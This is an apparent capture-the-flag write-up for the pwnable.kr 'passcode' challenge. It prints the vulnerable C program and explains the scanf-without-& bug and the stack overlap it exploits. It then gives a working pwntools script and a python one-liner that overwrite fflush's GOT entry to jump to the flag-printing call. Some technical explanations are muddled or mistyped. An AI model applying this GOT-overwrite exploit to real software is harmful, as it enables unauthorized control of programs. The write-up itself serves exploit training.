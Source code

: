 # **passcode**

![](https://i.imgur.com/IcNGRJL.png)

`ssh passcode@pwnable.kr -p2222`

First, ssh to the server, then list it, you'll get the source code like following:

```
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Cuz to `scanf("%d", passcode1);` scan without "&", so we can input a memory address to make it overwrittrn to another function.

Accroding to designer's planning, there's a suspicious function : `fflush(stdin);`.

We can input `fflush()`'s address in GOT to `scanf()` to make it being overwritten, not cuz to `fflush()` is following behind `scanf("%d", passcode1);`, this point must be clearly recognized, so no matter `fflush()` locates in where, this attack will work.

![](https://i.imgur.com/mtMPjku.png)

To let `scanf()` overwrite `fflush()`, we should get the `fflush()`'s address in GOT（Global offset Table）.

GOT is a helpful design for process executing, when a new process is being executed, it will ask PLT(Procedure Linkage Table) about function's GOT address for any function that is imported from library.

Overall, the GOT is static function address that you can call it or more over to overwrite it and make a ROP chain.

This challenge is to make `scanf("%d", passcode1);` to be `scanf("%d",fflush@plt());` and let `fflush()` to ouput the `$esp` which is its own ability.

![](https://i.imgur.com/hpMsuAX.png)
![](https://i.imgur.com/p7pWYQL.png)

We got the `fflush()`'s address is `0x0804a004`.

Then we check that `name` store in `-0x70(%ebp)`, `passcode1` in `-0x10(%ebp)` and `passcode2` in `-0xc0(%ebp)`.

Hence, we found that **offset : 0x70-0x10 = 96 -> name – passcode1 = 96**. So name's last 4 byte can overwrite the `passcode1` to `fflush()`'s address, then when scanf() is called, it will set the input into `fflush()`. 


![](https://i.imgur.com/niiKcWn.png)

Normally, `fflush()` should output the **current** `$esp` then keep going down, but with our malicious offset, it can be set to the line which process just mov flag into `$esp` then continue, so those lines after `if(passcode1==338150 && passcode2==13371337)` before `system("/bin/cat flag");` will all be fine.(`0x080485d7`~`0x080485e3`)

Use script like following:

```
#!/usr/bin/python 

from pwn import *

target = process('/home/passcode/passcode')

fflush = 0x0804a004

system = 0x080485d7

payload = "A" * 96 + p32(fflush) + str(system)

target.send(payload)

target.interactive()
```

Or python shell :

![](https://i.imgur.com/STkc88R.png)

`python -c "print ('A'*96+'\x04\xa0\x04\x08'+'134514147')" | ./passcode`

![](https://i.imgur.com/ygWdr5n.png)

Fin.

